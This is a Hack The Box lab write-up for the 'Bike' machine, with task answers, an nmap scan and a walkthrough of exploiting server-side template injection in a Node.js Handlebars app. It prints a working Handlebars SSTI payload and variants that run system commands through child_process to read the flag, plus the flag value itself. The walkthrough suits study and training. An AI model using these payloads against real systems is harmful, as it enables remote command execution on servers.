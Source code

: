 # Bike
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Bike 
* Topic: SMB, Javascript, SSTI
* Difficulty: Very easy
* Date: 16-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What TCP ports does nmap identify as open? Answer with a list of ports seperated by commas with no spaces, from low to high. 
 - **22,80**
2. What software is running the service listening on the http/web port identified in the first question? 
- **node.js**
3. What is the name of the Web Framework according to Wappalyzer? 
- **express**
4. What is the name of the vulnerability we test for by submitting {{7*7}}?
- **Server Side Template Injection**
5. What is the templating engine being used within Node.JS?
- **Handlebars**
6. What is the name of the BurpSuite tab used to encode text? 
- **decoder**
7. In order to send special characters in our payload in an HTTP request, we'll encode the payload. What type of encoding do we use? 
- **URL**
8. When we use a payload from HackTricks to try to run system commands, we get an error back. What is "not defined" in the response error? 
- **require**
9. What variable is the name of the top-level scope in Node.JS? 
- **Global**
10. By exploiting this vulnerability, we get command execution as the user that the webserver is running as. What is the name of that user? 
 - **root**

---
## Flag:
Nmap scan:

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.97.64 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 18:19 EDT
Nmap scan report for 10.129.97.64
Host is up (0.061s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Node.js (Express middleware)
|_http-title:  Bike 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 11.97 seconds
```

It's hosting ssh on port 22 and a web interface on port 80. Upon inspection, the web page is under construction. We can input an e-mail address and get updates on its progress. If we do so, we get a message back containing the e-mail we gave as input.

![](./attachments/Pasted%20image%2020220416012808.png)

This might be vulnerable to multiple kinds of attack.

We can try to find out more about the site using the browser extension called Wappalyzer.

![](./attachments/Pasted%20image%2020220416160703.png)

Like nmap, this extension confirms that the site is written in Node.js and that the web framework is Express.  

Since Node.js (and Python) websites often use template engines to display information to their users, they are also often vulnerable to SSTI attacks. Therefore, we will try to explore this path further.

[HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) provides some great information on how to exploit multiple different types of template engines.

Now we need to find out if the site is indeed vulnerable. We would also like to find out which template engine is being used so we in the end can craft a payload for it.

According to this image from the article, we can follow the tree structure to try and find out what engine is running.

![](./attachments/Pasted%20image%2020220416170535.png)

First, we will submit `${7*7}`. It doesn't get executed though and is just reflected back at us like the e-mail address.

![](./attachments/Pasted%20image%2020220416171325.png)

Therefore, `{{7*7}}` is next in line. When submitted, we get an error. 

This is not bad at all, though. Clearly, our input got interpreted instead of just being reflected back a us. This means that we just confirmed that the site *is* vulnerable to SST injections.

Furthermore, the error message provides us with some valuable information. Handlebars are being used as the Template Engine, and it is running as root.

![](./attachments/Pasted%20image%2020220416014612.png)

We need to try some different inputs, Burp Suite's repeater function can make this a lot easier.

Right click anywhere in the background of the intercepted request, then repeater.

![](./attachments/Pasted%20image%2020220416174154.png)

In the repeater tab we can now see the requests, if we click send we can see the server response on the right side of the window.

At the bottom of our request, we can see the input we made, although a bit distorted due to URL encoding.

![](./attachments/Pasted%20image%2020220416174858.png)

In the [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) article there is a Handlebars section, in it, we find a payload.

```
{{#with "s" as |string|}}
	{{#with "e"}}
		{{#with split as |conslist|}}
			{{this.pop}}
			{{this.push (lookup string.sub "constructor")}}
			{{this.pop}}
			{{#with string.split as |codelist|}}
				{{this.pop}}
				{{this.push "return require('child_process').exec('whoami');"}}
				{{this.pop}}
				{{#each conslist}}
					{{#with (string.sub.apply 0 codelist)}}
						{{this}}
					{{/with}}
				{{/each}}
			{{/with}}
		{{/with}}
	{{/with}}
{{/with}}
```

This looks very complicated, but we will only really be focusing on the following line, the rest is just 'delivery' code.

`{{this.push "return require('child_process').exec('whoami');"}}`

It tries to execute the `whoami` command on the server.

Before sending the payload, though, we need to encode it in URL encoding. With Burp's decode feature, can do this in seconds.

![](./attachments/Pasted%20image%2020220416180907.png)

Paste the URL encoding into the request.

![](./attachments/Pasted%20image%2020220416181027.png)

And send it.

We receive an error message back.

![](./attachments/Pasted%20image%2020220416183034.png)

Require is not defined. It means that we cannot use require in our injection. Thankfully, according to the [documentation](https://nodejs.org/api/globals.html) on Node.js there might be a `process` object available. 

We need to edit our line to:

`{{this.push "return process;"}}`

Then re-encode and send like before.

This time we don't get an error.

![](./attachments/Pasted%20image%2020220416184411.png)

Great, the `[object process]` has been returned. This is handling the current Node.js process. We can try to load a module through it, possibly allowing us to use require again. We will utilize the `'child_process'` module since it has access to executing system commands. We will edit our line to:

`{{this.push "return process.mainModule.require('child_process');"}}`

![](./attachments/Pasted%20image%2020220416232954.png)

It worked, the command executed without errors. 

Now we can try and execute an actual command like `whoami` by changing the line to:

`{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}`

![](./attachments/Pasted%20image%2020220416233853.png)

That's it! We got root. Now we just need to rinse and repeat for every command we want to execute in order to find the flag.

`{{this.push "return process.mainModule.require('child_process').execSync('cd .. ; cat flag.txt');"}}`

Did it. 

![](./attachments/Pasted%20image%2020220416235105.png)


**Flag:** `6b258d726d287462d60c103d0142a81c`

---
**Tags:** [[Hack The Box]]